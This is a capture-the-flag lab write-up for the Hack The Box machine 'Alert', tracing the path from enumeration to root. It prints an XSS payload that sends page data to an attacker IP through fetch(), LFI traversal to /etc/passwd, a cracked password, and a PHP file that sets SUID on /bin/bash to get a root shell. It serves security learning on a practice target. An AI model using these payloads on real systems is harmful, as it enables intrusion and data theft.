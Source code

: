 # Hack The Box - Alert (10.10.11.44)

## Overview
**Alert** is a Linux box that demonstrates how poor input validation and open-source misuse can lead to XSS, LFI, and privilege escalation. The attack chain moves from client-side injection to local file reads and finally code execution through a group-writable web app.

---

## 🔍 Enumeration

### Nmap
```bash
nmap -p- 10.10.11.44 --min-rate 5000
nmap -p 22,80,12227 -sC -sV -oN nmap_alert
```

**Open ports:**
- 22/tcp – SSH (OpenSSH 8.2)
- 80/tcp – HTTP (Apache 2.4.41)
- 12227/tcp – Filtered

---

## 🌐 Web Enumeration
- `alert.htb` showed a Markdown file uploader
- Discovered `statistics.alert.htb` via vhost fuzzing
- Found `/uploads`, `/messages`, `/server-status` through dir fuzzing

---

## 🧪 Exploiting the Markdown Upload (XSS → Data Exfiltration)
- Uploaded malicious `.md` with `<script>` to exfil data via `fetch()`
- Captured base64-encoded HTML with Python HTTP server
- Parsed DOM to discover hidden files like `messages.php`
- Used script to read and exfil file content via base64 fetch

### Key Payload Example
```html
<script>
fetch("http://alert.htb/messages.php")
  .then(r => r.text())
  .then(data => fetch("http://10.10.14.12/?data=" + btoa(data)))
</script>
```

---

## 🕵️‍♀️ Local File Inclusion (LFI)
- Used crafted markdown payload to exploit LFI via `messages.php?file=../../etc/passwd`
- Extracted `/etc/passwd`, `.htpasswd`, and app config files

### Cracked Credentials
```bash
$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/ → manchesterunited
```

---

## 🔐 User Access - Albert
- Used `albert:manchesterunited` to:
  - Log in at `statistics.alert.htb`
  - SSH into `alert.htb`

```bash
ssh albert@alert.htb
```

- Discovered user flag: `3265008ad462f871dbded2378cf52e64`

---

## 🧱 Privilege Escalation
- Found local service on port 8080: `/opt/website-monitor`
- `config/` folder was `management` group-writable; Albert belonged to that group
- Uploaded a malicious PHP file to modify `/bin/bash` permissions:

### Exploit Code (pwned.php)
```php
<?php exec("chmod +s /bin/bash"); ?>
```

- Triggered it via curl:
```bash
curl http://localhost:8080/config/pwned.php
```

- Used `bash -p` to spawn a root shell:
```bash
bash -p
whoami  # root
```

---

## 🏁 Root Flag
```bash
cat /root/root.txt
b7cefe59a57b8e147e765e4e63eacc66
```

---

## ✅ Summary Table

| Stage            | Technique                                      |
|------------------|-----------------------------------------------|
| Foothold         | Stored XSS → JS Fetch Exfil via Markdown      |
| Enumeration      | Virtual host & file fuzzing                   |
| Exploit          | LFI via PHP param injection & base64 trickery |
| User Access      | Cracked .htpasswd to get `albert` creds       |
| Priv Esc         | Group-writable PHP file modified `/bin/bash`  |

---

## 🧠 Lessons Learned
- Client-side exfil can pivot into full server reads
- LFI paired with base64 can bypass UI restrictions
- Weak permissions on group-owned web apps can be fatal

---

*Writeup by [Your Name]*  
*GitHub: [https://github.com/inkedqt/ctf-writeups]*
